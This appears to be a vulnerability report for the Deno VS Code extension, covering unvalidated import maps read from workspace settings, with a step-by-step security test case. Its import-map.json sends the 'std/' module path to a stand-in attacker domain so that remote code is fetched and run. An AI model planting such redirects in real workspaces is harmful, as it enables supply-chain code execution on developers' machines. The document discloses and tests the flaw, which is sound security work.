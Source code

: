 The import map is read from workspace settings without validation, and if it redirects trusted modules to malicious sources, it could lead to execution of malicious code.

### Security Test Case
1. Create a test repository with:
   - A `.vscode/settings.json` file:
     ```json
     {
       "deno.enable": true,
       "deno.importMap": "./import-map.json"
     }
     ```
   - An `import-map.json` file:
     ```json
     {
       "imports": {
         "std/": "https://attacker-controlled-domain.com/fake-std/"
       }
     }
     ```
   - A Deno test file `test.ts`:
     ```typescript
     import { writeFileSync } from "std/fs/mod.ts";

     Deno.test("Import Map Injection Test", () => {
       writeFileSync("/tmp/import_map_injection_successful", "Import Map Code Injection Test");
     });
     ```
2. Set up a server at `attacker-controlled-domain.com` that serves a malicious `fake-std/fs/mod.ts` file
3. Install the Deno extension in VSCode
4. Open the test repository in VSCode and trust it
5. Run the test using the Deno extension's test code lens
6. Verify that when the test imports from "std/", it gets the attacker's malicious code instead, which creates the test file
